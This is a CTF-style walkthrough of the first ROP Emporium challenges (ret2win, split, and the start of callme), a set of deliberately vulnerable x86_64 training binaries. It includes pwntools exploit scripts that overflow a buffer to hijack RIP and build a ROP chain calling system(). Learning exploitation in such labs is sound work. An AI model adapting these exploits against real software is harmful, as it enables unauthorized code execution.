## ROP Emporium Solutions

## What is ROP Emporium?

[ROP Emporium](https://ropemporium.com/) is a place to learn return-oriented programming through a series of challenges. Return-oriented programming (ROP) is a mechanism that can be leveraged to bypass exploit mitigation schemes such as NX/DEP. The ROP Emporium challenges are available in 4 different architectures; x86, x86_64, ARMv5 & MIPS. We will be using Linux x86_64 architecture.

## Challenge 1 --> ret2win

We try to execute the binary and passing some input to it: 
![image](https://github.com/user-attachments/assets/cd134ff6-f2bc-431f-8f4b-8b47c860f20b)

It returns the message "Thank you!" and exits. Let's dive into the binary internals. We use the following command to view the assembly code --> `objdump -M intel -d ret2win | less`

We can see three interesting functions. The "main" function, a function called "pwnme", and the "ret2win" function:

![image](https://github.com/user-attachments/assets/952290d7-af84-4a6d-a952-c8635e613176)

![image](https://github.com/user-attachments/assets/7c908601-8701-4fd9-8545-7f228060c06a)

![image](https://github.com/user-attachments/assets/2d1c7b54-d14a-4344-8316-5a4d93a45d64)

We need to find a way to jumping to the "ret2win" function, so this function prints the content of flag.txt

We search for a crash:

![image](https://github.com/user-attachments/assets/ccda25c5-913f-4287-94c7-e204da26b363)

And we send the input to the binary:

![image](https://github.com/user-attachments/assets/cc03c6fb-b240-4496-a3c3-a471f6a63f04)

We check for the value in "RBP" register:

![image](https://github.com/user-attachments/assets/b81faa47-1944-4dda-93cc-7c152e834980)

Furthermore, we can overwrite the RIP with 32+8 = 40 bytes.

We write the exploit:

```py
from pwn import *

p = process("./ret2win")

filler = b"A" * 40
ret2win = 0x400756

payload = filler + p64(ret2win)

p.send(payload)
p.interactive()
```

After execute it we receive the flag:

![image](https://github.com/user-attachments/assets/5ae1251c-8ef7-4179-ae0e-d976275b4a9f)

## Challenge 2 --> split

The binary is very similar to challenge 1:

![image](https://github.com/user-attachments/assets/7f42e73b-0789-46cf-9714-c243470ed689)

But in this case, the interesting function only list the current directory, instead of printing the flag. We have to use ROP to invoke the system call with a pointer to "/bin/cat flag.txt" as an argument. We search for strings in the binary:

![image](https://github.com/user-attachments/assets/5841cc53-d17f-4f75-99ec-4a5f8e088b05)

We have the address of "/bin/cat flag.txt", now we are going to check the name of the interesting function:

![image](https://github.com/user-attachments/assets/b262c40a-a548-4de7-8498-60f410ef7a96)

And we search for a "pop rdi" gadget to pop the first argument into rdi:

![image](https://github.com/user-attachments/assets/a42b47d3-3905-4407-9241-757d234a9e1c)

The offset is the same as in the previous challenge. We start writing the exploit:

```py
from pwn import *

p = process("./split")

filler = b"A" * 40

rop = [
    0x00000000004007c3,         # pop rdi ; ret ;
    0x00601060,                 # address of "/bin/cat flag.txt"
    0x40074b                    # &(system())
]

rop = b"".join([p64(r) for r in rop])

payload = filler + rop

p.send(payload)
p.interactive()
```

And we receive the flag after executing it.

## Challenge 3 --> callme

This time we have a lib file in addition:

![image](https://github.com/user-attachments/assets/643291be-d56c-42cc-81f0-69f2e96be20b)

We are going to create an exploit template with the following command --> `pwn template --libc libcallme.so callme > poc.py`
